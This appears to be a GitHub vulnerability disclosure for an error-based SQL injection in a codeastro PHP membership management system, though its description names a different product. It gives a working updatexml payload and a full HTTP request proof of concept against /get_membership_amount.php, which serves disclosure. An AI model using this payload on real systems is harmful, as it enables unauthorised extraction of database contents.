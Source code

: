 # SQLi-1

# Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code (It is an open source project from [https://codeastro.com/](https://codeastro.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: tekun
2. vendors: https://codeastro.com/membership-management-system-in-php-with-source-code/;
3. The program is built using the PHP 7.3.4nts version;
4. Vulnerability location: /get_membership_amount.php

# Vulnerability Verification

[+] Payload:

```java
/get_membership_amount.php?membershipTypeId=-1+and+(updatexml(1,concat(0x7e,(select+schema_name+from+information_schema.schemata+limit+4,1),0x7e),1))--+
```

POC：

```js
GET /membership/get_membership_amount.php?membershipTypeId=-1+and+(updatexml(1,concat(0x7e,(select+schema_name+from+information_schema.schemata+limit+4,1),0x7e),1))--+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=04m7j5gs6vvmk9sh7s0fptra0o
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1


```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：

​
![image-20240225145511-l0kkj0t](https://github.com/1testnew/CVE_Hunter/assets/139985256/7f5f6232-67ef-4a4e-b2b3-7848910e89f4)

‍
